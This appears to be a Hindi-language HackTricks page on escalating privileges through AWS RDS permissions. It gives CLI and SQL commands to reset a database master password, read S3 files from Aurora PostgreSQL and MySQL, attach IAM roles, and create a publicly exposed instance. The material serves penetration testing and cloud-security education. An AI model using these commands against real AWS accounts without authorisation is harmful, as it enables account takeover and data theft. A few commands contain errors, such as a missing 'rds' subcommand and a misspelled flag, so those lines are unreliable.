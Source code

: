# AWS - RDS Privesc

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

## RDS - Relational Database Service

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड बदल सकता है**, और डेटाबेस के अंदर लॉगिन कर सकता है:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क** करने में सक्षम होना चाहिए (वे आमतौर पर केवल अंदरूनी नेटवर्क से ही सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति वाले उपयोगकर्ता DB instance से कनेक्ट हो सकते हैं।

### RDS Role IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि **`SELECT datname FROM pg_database;`** चलाने पर आपको **`rdsadmin`** नामक डेटाबेस मिलता है, तो आप जानते हैं कि आप **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

सबसे पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुंचने के लिए किया गया है। आप इसे स्थापित एक्सटेंशनों को देखकर जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आपको **`aws_s3`** जैसा कुछ मिलता है, तो आप मान सकते हैं कि इस डेटाबेस का **S3 पर किसी प्रकार का एक्सेस है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि **क्लस्टर में कोई IAM Role संलग्न है या नहीं** **`AssociatedRoles`** फ़ील्ड में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस को **अन्य AWS सेवाओं तक पहुंचने के लिए तैयार किया गया था**। **रोल के नाम** के आधार पर (या यदि आप रोल की **permissions** प्राप्त कर सकते हैं) तो आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास अतिरिक्त एक्सेस क्या है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे इस प्रकार पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **raw AWS credentials** होते तो आप उन्हें S3 डेटा एक्सेस करने के लिए भी उपयोग कर सकते थे:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **कोई भी parameter group variable बदलने की आवश्यकता नहीं है** S3 तक पहुंचने के लिए।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql के अंदर, यदि आप query **`SELECT User, Host FROM mysql.user;`** चलाते हैं और एक user **`rdsadmin`** नाम का है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

Mysql के अंदर **`show variables;`** चलाएं और यदि variables जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, के values हैं, तो आप मान सकते हैं कि database S3 data तक पहुंचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की permissions हैं, तो आप जांच सकते हैं कि cluster में कोई **associated role** है या नहीं, जो आमतौर पर AWS services तक पहुंच का मतलब होता है।

अब, एक bucket के अंदर **file पढ़ने के लिए** आपको पूरा path जानना होगा। आप इसे इस तरह पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` अनुमतियाँ हैं, वह **मौजूदा RDS instance में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंचने** या instance के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: संवेदनशील डेटा तक पहुंच या RDS instance में डेटा के अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िग्स की आवश्यकता होती है जैसे कि Mysql, जिसे aprameter groups में role ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

सिर्फ इस अनुमति के साथ एक हमलावर **क्लस्टर के अंदर एक नया instance** बना सकता है जो पहले से मौजूद है और उसमें एक **IAM role** संलग्न है। वह master user पासवर्ड को बदलने में सक्षम नहीं होगा, लेकिन वह नई database instance को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` की अनुमतियाँ हैं, **निर्दिष्ट भूमिका संलग्न करके एक नया RDS instance बना सकता है**। हमलावर तब संभावित रूप से **संवेदनशील डेटा तक पहुंच सकता है** या instance के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए भूमिका/instance-profile की कुछ आवश्यकताएँ (से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 ग्रहण करने की अनुमति हो।
* instance profile का नाम और संबंधित IAM भूमिका का नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील डेटा तक पहुंच या RDS instance में डेटा के अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` अनुमतियाँ हैं, वह **मौजूदा RDS instance में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंच** या instance के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

{% hint style="warning" %}
DB instance को एक क्लस्टर के बाहर होना चाहिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील डेटा तक पहुंच या RDS instance में डेटा के अनधिकृत संशोधन।

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}
